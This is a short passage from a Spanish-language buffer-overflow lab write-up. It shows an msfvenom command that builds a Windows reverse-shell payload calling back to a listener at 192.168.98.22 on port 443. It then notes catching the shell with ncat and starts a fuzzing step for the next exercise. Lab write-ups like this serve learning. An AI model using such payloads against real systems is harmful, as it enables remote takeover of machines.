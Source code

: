 ```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x07\x2e\xa0" -f c
```

Luego de generar nuestro payload, insertaremos en nuestro script y ejecutaremos, antes debemos de ponernos a la escucha con `ncat`

## Shell

![20240228010946.png](20240228010946.png)

Luego de ejecutar nuestro script obtenemos nuestra shell de la maquina victima

# OverFlow2 

## Offset

Para obtener una el offset haremos uso de fuzzing que enviara cierta cantidad de caracteres 
